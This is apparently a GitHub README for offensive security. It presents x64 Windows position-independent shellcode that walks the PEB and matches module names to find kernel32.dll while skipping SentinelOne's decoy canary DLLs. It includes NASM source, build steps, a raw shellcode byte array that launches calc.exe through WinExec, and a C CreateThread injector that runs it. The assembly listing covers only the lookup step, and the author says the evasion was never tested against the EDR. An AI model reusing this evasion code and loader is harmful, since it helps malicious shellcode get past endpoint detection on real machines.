

# About
This is an updated version of a PIC shellcode blob that i created in the repo, [coding-my-first-position-independent-shellcode-for-windows-from-scratch-in-x64-assembly](https://github.com/wizardy0ga/coding-my-first-position-independent-shellcode-for-windows-from-scratch-in-x64-assembly). 

Aside from slight register handling optimizations, the major difference with this code is that string comparison is used to resolve the name of the dll represented by the [LDR_DATA_TABLE_ENTRY](https://ntdoc.m417z.com/ldr_data_table_entry) pointed to by each InLoadOrderModuleList node. This solves an issue where the payload assumes that kernel32 will be the 3rd module in this list. 

# The problem
EDR vendors like Sentinel One are known to inject their own canary DLLs which detect and break the typical pebwalk technique which is to assume kernel32.dll is at a specific index within the linked list & dereference your way to it. The code below is taken from [coding-my-first-position-independent-shellcode-for-windows-from-scratch-in-x64-assembly](https://github.com/wizardy0ga/coding-my-first-position-independent-shellcode-for-windows-from-scratch-in-x64-assembly) which demonstrates this technique.

```x86asm
    mov r8,  [r8 + 0x10]    ; r8 = LDR_DATA_TABLE_ENTRY, PEB->Ldr->InLoadOrderModuleList->Flink              [host_process.exe]
    mov r8,  [r8]           ; r8 = LDR_DATA_TABLE_ENTRY, PEB->Ldr->InLoadOrderModuleList->Flink->Flink       [ntdll.dll]
    mov r8,  [r8]           ; r8 = LDR_DATA_TABLE_ENTRY, PEB->Ldr->InLoadOrderModuleList->Flink->Flink-Flink [kernel32.dll]
    mov r9,  [r8 + 0x30]    ; r9 = Peb->Ldr->InLoadOrderModuleList->Flink->Flink->Flink->DllBase             [kernel32.dll]
```
###### Static dereferencing to kernel32.dll

If you've ever seen a DLL within a process carrying the name `kern3l32.dll` or `ntd1l.dll`, these are the canary DLLs. Specifically, those are Sentinel Ones canary DLLs. When our payload accesses these DLLs, the EDR is notified and can take action.

I've shamelessly stolen the image below from a [Red Ops article](https://redops.at/en/blog/edr-analysis-leveraging-fake-dlls-guard-pages-and-veh-for-enhanced-detection) which shows this defense technique. Yes, its Sentinel One. Sentinel One loads its canaray DLLs at the 2nd and 3rd indexes within the list and then the real variants are loaded at the 4th and 5th indeces.

<p align=center>
 </img>
</p>

Using our original shellcode, if we were to use static dereferencing with these modules loaded in place of the real modules, we would land on the canary which would trigger a detection mechanism in the EDR.

```x86asm
    mov r8,  [r8 + 0x10]    ; r8 = LDR_DATA_TABLE_ENTRY, PEB->Ldr->InLoadOrderModuleList->Flink              [host_process.exe]
    mov r8,  [r8]           ; r8 = LDR_DATA_TABLE_ENTRY, PEB->Ldr->InLoadOrderModuleList->Flink->Flink       [ntd1l.dll]
    mov r8,  [r8]           ; r8 = LDR_DATA_TABLE_ENTRY, PEB->Ldr->InLoadOrderModuleList->Flink->Flink-Flink [kern3l32.dll]
    mov r9,  [r8 + 0x30]    ; r9 = Peb->Ldr->InLoadOrderModuleList->Flink->Flink->Flink->DllBase             [kern3l32.dll]
```
###### Static dereferencing to canary dll kern3l32.dll

# The solution
To get around this, we must parse the BaseDllName member of the [LDR_DATA_TABLE_ENTRY](https://ntdoc.m417z.com/ldr_data_table_entry) structure. This member contains a wide character string which is a [UNICODE_STRING](https://ntdoc.m417z.com/unicode_string) structure pointing to the DLLs file name as a wide string character. This will ensure our code gets the correct version of kernel32.dll without accessing memory within the canary DLLs, triggering a detection from the EDR.

> [!IMPORTANT]
> This is not the optimal solution. Ideally, we should be hashing strings however i have left this for an upcoming paper. Doing it with string comparison gives me a chance to write out fundamental things in pure assembly rather than just skipping to hashing.

```x86asm
main:
    ; --- Step 1. Locate Kernel32.dll in the process environment block
    ;
    xor rax, rax
    mov rax, [gs:0x60]          ; rax = PEB
    mov rax, [rax + 0x18]       ; rax = PEB->LDR
    mov rax, [rax + 0x10]       ; rax = PEB->Ldr->InLoadOrderModuleList->Flink [this.exe]
    lea rcx, [rel kernel32]     ; rcx = &"KERNEL32.DLL"
get_base_dll_name:
    mov r15, rax                ; r15 = PEB->Ldr->InLoadOrderModuleList->Flink
                                ; - Must preserve the value of rax which holds current position in Ldr linked list
    mov rdx, [rax + 0x60]       ; rdx = LDR_DATA_TABLE_ENTRY->BaseDllName 
                                ; - Push past Blink (0x8 bytes) LDR_DATA_TABLE_ENTRY base, access BaseDllName (0x58 bytes)
    sub rsp, 0x28               ; Add 0x28 bytes for shadowspace
    call wstrcmp                 ; Call strcmp(rcx="KERNEL32.DLL", rdx=LdrDataTableEntry.BaseDllName)
    add rsp, 0x28               ; Remove shadow space
    cmp rax, 0                  ; Check if strcmp was successful
    je found_kernel_32          ; Continue if kernel32 was found
    mov rax, [rax]              ; Deref forward link (Flink) to next LDR_DATA_TABLE_ENTRY (Dll) if not found
    jmp get_base_dll_name       ; Return to top & get base dll name
found_kernel_32:
    ret
    
; wide string comparison function
; wstrcmp(rcx, rdx)
wstrcmp:
    mov r10w, [rcx + rsi * 2]
    mov r11w, [rdx + rsi * 2] 
    cmp r10w, r11w
    jne wstrcmp_not_found
    cmp r10w, 0
    jne wstrcmp_epilogue
    cmp r11w, 0
    je wstrcmp_found
wstrcmp_epilogue:
    inc rsi
    jmp wstrcmp
wstrcmp_not_found:
    xor rsi, rsi
    ret
wstrcmp_found:
    xor rsi, rsi
    xor rax, rax
    ret
kernel32:
    dw __utf16__("KERNEL32.DLL"), 0
```

# Demonstration
1. To create the shellcode, we must assemble and link the executable. I've assembled with nasm & used link.exe from MSVC toolchain.

```
nasm -f win64 improved-pebwalk.x64.asm -o improved.obj
Link: link.exe /subsystem:console /entry:main improved.obj
```

1. We can carve the shellcode from the text section of the executable and add it to an injector. In this example, i've used the [CreateThread injection template](https://github.com/wizardy0ga/Windows-Shellcode-Injection-Methods/blob/main/Injection%20Methods/Local%20Process/CreateThread/main.c) which has had its default shellcode replaced with the shellcode from the .text section our assembled executable.

```c
# include <windows.h>
# include <stdio.h>

#pragma section(".text")
_declspec(allocate(".text")) unsigned char shellcode[] = {
    0x48, 0x31, 0xC0, 0x65, 0x48, 0x8B, 0x04, 0x25, 0x60, 0x00, 0x00, 0x00, 0x48, 0x8B, 0x40, 0x18,
    0x48, 0x8B, 0x40, 0x10, 0x48, 0x8D, 0x0D, 0xF5, 0x00, 0x00, 0x00, 0x49, 0x89, 0xC7, 0x48, 0x8B,
    0x50, 0x60, 0x48, 0x83, 0xEC, 0x28, 0xE8, 0xB7, 0x00, 0x00, 0x00, 0x48, 0x83, 0xC4, 0x28, 0x48,
    0x83, 0xF8, 0x00, 0x74, 0x05, 0x48, 0x8B, 0x00, 0xEB, 0xE1, 0x4D, 0x8B, 0x7F, 0x30, 0x45, 0x8B,
    0x77, 0x3C, 0x4D, 0x01, 0xFE, 0x49, 0x81, 0xC6, 0x88, 0x00, 0x00, 0x00, 0x45, 0x8B, 0x36, 0x4D,
    0x01, 0xFE, 0x48, 0x8D, 0x0D, 0xD1, 0x00, 0x00, 0x00, 0x45, 0x8B, 0x6E, 0x20, 0x4D, 0x01, 0xFD,
    0x43, 0x8B, 0x54, 0xA5, 0x00, 0x4C, 0x01, 0xFA, 0x48, 0x83, 0xEC, 0x28, 0xE8, 0x43, 0x00, 0x00,
    0x00, 0x48, 0x83, 0xC4, 0x28, 0x48, 0x83, 0xF8, 0x00, 0x74, 0x0C, 0x4D, 0x3B, 0x66, 0x14, 0x74,
    0x05, 0x49, 0xFF, 0xC4, 0xEB, 0xCC, 0xC3, 0x45, 0x8B, 0x5E, 0x24, 0x4D, 0x01, 0xFB, 0x66, 0x43,
    0x8B, 0x04, 0x63, 0x45, 0x8B, 0x56, 0x1C, 0x4D, 0x01, 0xFA, 0x43, 0x8B, 0x1C, 0xA2, 0x4C, 0x01,
    0xFB, 0x48, 0x8D, 0x0D, 0x8A, 0x00, 0x00, 0x00, 0xBA, 0x01, 0x00, 0x00, 0x00, 0x48, 0x83, 0xEC,
    0x28, 0xFF, 0xD3, 0xC3, 0xB8, 0x01, 0x00, 0x00, 0x00, 0x44, 0x8A, 0x14, 0x31, 0x44, 0x8A, 0x1C,
    0x32, 0x45, 0x38, 0xDA, 0x75, 0x11, 0x41, 0x80, 0xFA, 0x00, 0x75, 0x06, 0x41, 0x80, 0xFB, 0x00,
    0x74, 0x09, 0x48, 0xFF, 0xC6, 0xEB, 0xDD, 0x48, 0x31, 0xF6, 0xC3, 0x48, 0x31, 0xF6, 0x48, 0x31,
    0xC0, 0xC3, 0x66, 0x44, 0x8B, 0x14, 0x71, 0x66, 0x44, 0x8B, 0x1C, 0x72, 0x66, 0x45, 0x39, 0xDA,
    0x75, 0x13, 0x66, 0x41, 0x83, 0xFA, 0x00, 0x75, 0x07, 0x66, 0x41, 0x83, 0xFB, 0x00, 0x74, 0x09,
    0x48, 0xFF, 0xC6, 0xEB, 0xDD, 0x48, 0x31, 0xF6, 0xC3, 0x48, 0x31, 0xF6, 0x48, 0x31, 0xC0, 0xC3,
    0x4B, 0x00, 0x45, 0x00, 0x52, 0x00, 0x4E, 0x00, 0x45, 0x00, 0x4C, 0x00, 0x33, 0x00, 0x32, 0x00,
    0x2E, 0x00, 0x44, 0x00, 0x4C, 0x00, 0x4C, 0x00, 0x00, 0x00, 0x57, 0x69, 0x6E, 0x45, 0x78, 0x65,
    0x63, 0x00, 0x63, 0x61, 0x6C, 0x63, 0x2E, 0x65, 0x78, 0x65, 0x00
};

int main() {
	
	DWORD  ThreadId	= 0;
	HANDLE hThread	= 0;

	/* Create the thread pointing at the shellcode in the text section */
	if ((hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)shellcode, 0, 0, &ThreadId)) == NULL) {
		printf("Failed to execute shellcode. Error: %d\n", GetLastError());
		return -1;
	}

	printf("Created new thread (%d) starting at 0x%p\n", ThreadId, shellcode);

	/* Wait for the thread to finish before exiting this process */
	WaitForSingleObject(hThread, INFINITE);

	CloseHandle(hThread);
	printf("exit!");
	return 0;
}
```

We're able to compile & run the executable which successfully pops a calculator. Unfortunately, i don't have access to a Sentinel One license at the moment so i am unable to test with the EDR however this in theory should work.

<p align=center>
    </img>
</p>